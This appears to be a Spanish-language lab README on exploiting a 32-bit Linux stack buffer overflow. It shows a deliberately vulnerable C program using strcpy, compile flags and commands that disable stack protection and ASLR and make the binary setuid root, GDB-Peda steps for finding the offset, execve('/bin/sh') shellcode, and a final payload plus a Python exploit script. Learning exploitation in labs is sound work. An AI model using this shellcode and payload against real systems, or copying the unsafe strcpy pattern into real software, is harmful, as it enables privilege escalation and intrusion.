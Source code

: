 **EXPLICACÍON DETALLADA EN** [Buffer Overflow 32 Bits Linux](https://hacknotes.github.io/buffer%20overflow/buff32linux/)

## Script
```bash
#include <stdio.h>
#include <string.h>

int vuln(char *str)
{
    char buf[64];
    strcpy(buf,str);
    printf("Cadena: %s\n",buf);
    return 0;
}
int main(int argc, char* argv[])
{
    vuln(argv[1]);
}
```

## Compilacion

 ```bash
gcc -g -fno-stack-protector -z execstack -m32 buff.c -o buff
```

## Permisos
 
```bash
 chown root:root buff
 chmod +s buff
 echo 0 > /proc/sys/kernel/randomize_va_space
```
 
 ## GDB-Peda

Vemos los registros de la memoria

**Comando:** 
 ```bash
 i r
 ```
 
Crea cadenas aleatorias

**Comando:**
 ```bash
 pattern arg 100
 ```
 
 Ejecuta el binario

**Comando:**
 ```bash
 r
 ```
 
Encuentra el tamaño del offset.

**Comando:**
 ```bash
 pattern search
 ```
 
 Ver los ultimos 100 registros de la pila.

**Comando:**
 ```bash
 x/100wx $esp
 ```
 Nobs (no operate code).
 ```bash
 \x90
 ```
 
 ## Shell
 ```bash
 "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
 ```
 
 ## Payload final
 ```bash
 $(python -c 'print "A"*76 + "\xa0\xef\xff\xbf" + "\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
```
## Script en python
```python
#!/usr/bin/python

from struct import pack

if __name__=='__main__':

        offset = 76
        junk = "A"*offset
        EIP = pack("<I", 0xbfffefa0)
        nops = "\x90"*100
        shell= "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

payload = junk + EIP + nops + shell

print payload
```
**EXPLICACÍON DETALLADA EN** [Buffer Overflow 32 Bits Linux](https://hacknotes.github.io/buffer%20overflow/buff32linux/)
